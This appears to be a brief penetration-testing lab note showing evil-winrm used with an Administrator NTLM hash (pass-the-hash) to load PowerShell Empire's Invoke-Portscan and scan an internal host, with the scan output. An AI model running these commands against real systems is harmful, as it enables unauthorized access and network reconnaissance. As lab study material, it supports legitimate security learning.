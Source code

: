 Using Evil-winrm we can pass the scripts folder  and call a particular script afterwards

`evil-winrm -u Administrator  -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.89.150 -s /usr/share/powershell-empire/data/module_source/situational_awareness/network/`

loading the script
`Invoke-Portscan.ps1`

using the script
`Invoke-Portscan -Hosts 10.200.89.100 -TopPorts 50`

output:
`Hostname      : 10.200.89.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 79, 88...}
finishTime    : 4/30/2021 4:07:54 PM
`
![[Screenshot 2021-04-30 at 8.46.55 PM.png]]

